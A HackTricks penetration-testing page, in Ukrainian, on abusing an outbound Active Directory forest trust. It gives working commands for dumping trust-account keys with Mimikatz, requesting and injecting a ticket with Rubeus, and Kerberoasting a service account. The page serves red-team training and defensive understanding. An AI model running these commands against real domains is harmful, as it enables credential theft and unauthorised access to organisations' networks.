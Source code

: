 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому сценарії **ваш домен** **довіряє** деяким **привілеям** принципу з **інших доменів**.

## Перерахування

### Вихідна довіра
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Вразливість безпеки існує, коли встановлюється довірчі відносини між двома доменами, які тут позначені як домен **A** і домен **B**, де домен **B** розширює свою довіру до домену **A**. У цій конфігурації спеціальний обліковий запис створюється в домені **A** для домену **B**, який відіграє вирішальну роль у процесі аутентифікації між двома доменами. Цей обліковий запис, пов'язаний з доменом **B**, використовується для шифрування квитків для доступу до послуг між доменами.

Критичний аспект, який потрібно зрозуміти тут, полягає в тому, що пароль і хеш цього спеціального облікового запису можуть бути витягнуті з контролера домену в домені **A** за допомогою інструменту командного рядка. Команда для виконання цієї дії:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Ця екстракція можлива, оскільки обліковий запис, позначений знаком **$** після його імені, активний і належить до групи "Domain Users" домену **A**, тим самим успадковуючи дозволи, пов'язані з цією групою. Це дозволяє особам аутентифікуватися в домені **A** за допомогою облікових даних цього облікового запису.

**Увага:** Існує можливість використати цю ситуацію для отримання доступу до домену **A** як користувач, хоча з обмеженими дозволами. Проте, цей доступ є достатнім для проведення перерахунку в домені **A**.

У сценарії, де `ext.local` є довірчим доменом, а `root.local` є довіреним доменом, обліковий запис користувача з ім'ям `EXT$` буде створено в `root.local`. За допомогою специфічних інструментів можливо вивантажити ключі довіри Kerberos, розкриваючи облікові дані `EXT$` у `root.local`. Команда для досягнення цього виглядає так:
```bash
lsadump::trust /patch
```
Наступним кроком можна використати витягнутий ключ RC4 для автентифікації як `root.local\EXT$` в `root.local`, використовуючи іншу команду інструмента:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Цей крок аутентифікації відкриває можливість перераховувати та навіть експлуатувати сервіси в `root.local`, такі як виконання атаки Kerberoast для витягування облікових даних облікового запису служби за допомогою:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Збір пароля довіри в чистому вигляді

У попередньому потоці використовувався хеш довіри замість **пароля в чистому вигляді** (який також був **вивантажений за допомогою mimikatz**).

Пароль в чистому вигляді можна отримати, конвертуючи вихід \[ CLEAR \] з mimikatz з шістнадцяткового формату та видаляючи нульові байти ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Іноді при створенні відносин довіри користувачеві потрібно ввести пароль для довіри. У цій демонстрації ключем є оригінальний пароль довіри, тому він читається людиною. Оскільки ключ змінюється (кожні 30 днів), пароль в чистому вигляді не буде читабельним для людини, але технічно все ще буде використовуваним.

Пароль в чистому вигляді можна використовувати для виконання звичайної аутентифікації як обліковий запис довіри, альтернативою запиту TGT за допомогою секретного ключа Kerberos облікового запису довіри. Тут запитуємо root.local з ext.local для членів Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Посилання

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

